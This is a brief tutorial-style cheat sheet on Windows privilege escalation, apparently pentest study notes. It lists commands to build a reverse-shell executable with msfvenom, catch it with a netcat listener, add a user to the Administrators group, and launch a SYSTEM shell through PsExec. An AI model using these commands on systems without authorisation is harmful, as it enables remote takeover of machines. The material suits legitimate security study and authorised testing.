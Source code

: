 # Privilege escalation on windows

Our goal is to get `Administrator` or `System` shell.

# Spawning administrative shells

## Reverse shell

Unlike linux, spawning administrative shells on windows is harder. Best method is to create reverse shell executable using msfvenom.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= -f exe -o reverse.exe
```

Then we setup listener with netcat.

```bash
nc -lvnp 8990
```

## RDP

If RDP is available (or we can enable it), we can add current user into Administrators group and spawn administrator shell via GUI.

```bash
net localgroup administrators <user> /add
```

## ADMIN to SYSTEM

To escalate from admin to SYSTEM, we can use [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

```bash
.\PsExec64.exe -accepteula -i -s C:\path\reverse.exe
```

# Automation tools

